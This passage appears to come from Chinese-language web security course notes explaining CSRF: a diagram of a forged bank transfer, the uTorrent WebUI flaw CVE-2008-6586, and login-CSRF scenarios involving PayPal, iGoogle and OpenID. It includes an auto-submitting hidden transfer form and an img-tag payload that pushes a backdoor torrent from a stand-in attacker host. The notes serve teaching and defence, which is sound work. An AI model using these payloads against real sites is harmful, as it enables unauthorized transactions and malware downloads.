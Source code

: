 ```html
www.attacker.com                          Browser                       wwww.bank.com
     |                GET /blog HTTP/1.1    |                                      |
     |<—————————————————————————————————————|                                      |
     |                                      |                                      |
 <form action=https://www.bank.com/transfer |                                      |
  method=POST target=invisibleframe>        |                                      |
  <input name=recipient value=attacker>     |                                      |
  <input name=amount value=$100> </form>    |                                      |
 <script>document.forms[0].submit()</script>|                                      |
     |————————————————————————————————————> |                                      |
     |                                      | POST /transfer HTTP/1.1              |
     |                                      | Referer: http://www.attacker.com/blog|
     |                                      | Recipient=attacker&amount=$100       |
     |                                      | Cookie: SessionID=523FA4cd2E         |
     |                                      |————————————————————————————————————> |
     |                                      |                                      |
     |                                      |                 HTTP/1.1 200 OK      |
     |                                      |<—————————————————————————————————————|
```

### 5.2 uTorrent CSRF漏洞
 
- [uTorrent](https://en.wikipedia.org/wiki/ΜTorrent) 是仅次于迅雷的最流行的BT客户端
- WebUI是一个插件，允许用户从一台计算机的浏览器上通过网络控制另一台计算机上的uTorrent，可通过`localhost:8080 `访问本机上的WebUI服务
- [CVE-2008-6586](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-6586)：在WebUI 0.315中gui/index.php存在CSRF漏洞，攻击者可以强制下载任意torrent文件，或者更改管理员账号

攻击者将恶意的HTML图片元素注入到论坛或者发送垃圾邮件，例如：

```html
<img src="http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent">
```

当浏览器访问这些网页时就会自动打开链接，向uTorrent的WebUI发送携带cookie的请求。

### 5.3 Login CSRF 

参考资料：[Robust Defenses for Cross-Site Request Forgery (ACM CCS 2008)](http://www.adambarth.com/papers/2008/barth-jackson-mitchell-b.pdf)

在Login CSRF中，攻击者使用受害者浏览器来伪造一个指向目标网站登录页面的请求，携带攻击者的用户名和密码；受害者会以攻击者的身份登录到目标网站上，而浏览器中存储攻击者登录的cookie。

- 窃取搜索历史：受害者受到Login CSRF攻击，以攻击者身份登录Yahoo!或Google；以攻击者身份使用搜索引擎，搜索历史被记录在攻击者账户里
- PayPal：攻击者创建一个使用PayPal付款的恶意商家网站；受害者购买商品时被重定向到PayPal来登录账号；商家偷偷地让受害者登录到攻击者的账户；为了付款，受害者把信用卡信息录入了攻击者的账户
- iGoogle：iGoogle允许用户定制Google主页上的小插件；攻击者制作一个恶意插件并安装到自己的iGoogle主页；受害者以攻击者身份登录到攻击者的iGoogle主页，并运行恶意插件；该插件以`https://www.google.com`为源来运行，可以盗取受害者的口令
- [OpenID](https://en.wikipedia.org/wiki/OpenID)是一个开放认证平台，用户（User）可以从一个OpenID提供商（IDP）获得一个数字身份（ID），来登录支持OpenID的网站（RP，Relying Party）。由于缺乏将OpenID会话与用户浏览器绑定的机制，攻击者可以令用户浏览器已攻击者身份来初始化一个会话。
	1. 攻击者首先访问一个RP，并启动与IDP的认证过程
	- 在OpenID协议最后一步，IDP将攻击者浏览器重定向到RP的`return_to` URL
	- 但攻击者并不访问，而是令用户的浏览器来访问`return_to` URL
	- RP完成OpenID协议，在用户的浏览器中存储会话cookie，用户已经作为攻击者登录了RP
